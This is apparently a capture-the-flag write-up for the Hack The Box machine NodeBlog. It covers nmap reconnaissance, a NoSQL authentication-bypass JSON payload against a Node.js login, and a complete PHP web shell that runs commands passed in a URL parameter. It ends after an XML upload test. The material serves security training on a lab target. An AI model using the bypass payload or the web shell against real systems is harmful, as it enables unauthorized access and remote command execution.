 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a878e280-fe8e-4949-beb2-3c0573d8139a)![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/45a4035b-881f-4198-8d00-4e8c9eee5824)# Box: NodeBlog
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A -v -p- -T4 10.129.96.160```

```
Nmap scan report for 10.129.96.160
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/23%OT=22%CT=1%CU=32229%PV=Y%DS=2%DC=T%G=Y%TM=653635
OS:03%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST
OS:11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 39.434 days (since Wed Sep 13 23:30:20 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   199.89 ms 10.10.14.1
2   200.02 ms 10.129.96.160

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 09:55:31 2023 -- 1 IP address (1 host up) scanned in 826.12 seconds
```
From our nmap scan we have 2 open ports, port 22 which runs the ssh service and port 5000 which runs the http service. We'll focus our enumeration today on port 5000



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6804e207-e945-4c9c-bb41-8d07196cca91)

From our nmap scan we can see that this webpage is running on the nodejs express framework

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80a4db1f-b87b-43fe-b6c3-e530d43d96ea)

Lets try to login with default creds. we'll capture the request and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c5728ea7-d4ce-4b33-8039-76486543b90b)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/859495fa-100a-4460-a3ff-4e76a516bc50)

oops, invalid password.

During my research on the express framework I saw that asides the "Content-Type" ```application/x-www-form-urlencoded```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/59a10b9f-7a3f-4de3-85be-b48de20a8c6a)

So we can use the "Content-Type" ```application/json```. If we are using ```json``` this means our request will have a different structure

After editing, your request should look like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f1e6e517-e7b5-443c-9436-0c05dcc75638)

nice nice, we were able to successfully change the content-type. One way we know this worked is from the "Invalid Password" error we got.


We can try to bypass this login page by using a ```NoSQL``` payload. So, we'll be performing Authentication Bypass in json format.

payload:```{"username": {"$gt":""}, "password": {"$gt":""}}```

Modifying our request should get us logged in

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/27e8bd3d-739d-43da-8b5f-9580d7cd8d50)

We didn't get the "Invalid Password" error, does this mean we have successfully bypassed the login page?? Well lets confirm this by showing the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8c142595-5d21-4d22-8c12-6356f3af0690)

nice nice, we are in hehe.

We can see there's an upload button. Well, lets exploit this




# Exploitation

We'll start out by uploading a php script (no time to waste for testing with jpg or png extensions😂)

Lets create a php file

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/nodeblog]
└─$ nano abeg.php 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/nodeblog]
└─$ cat abeg.php              
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
Lets upload this and see what happens

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3ad6eb42-9851-4364-ae60-56e310e8c0e9)

oops, we get the "invalid xml example" error. Well, this means the accepted file extension is xml.

Lets see if this is true, we'll create a simple xml file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<person>
  <name>BlackAnon</name>
  <age>26</age>
  <email>blackanon@vawulence.com</email>
</person>
```
Well, that's my age right there hehe.

Save this in a file "info.xml"

After uploading, you should see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9f065f0b-1517-4df4-917c-b3210e0f6650)

Well, this means we successfully uploaded the file































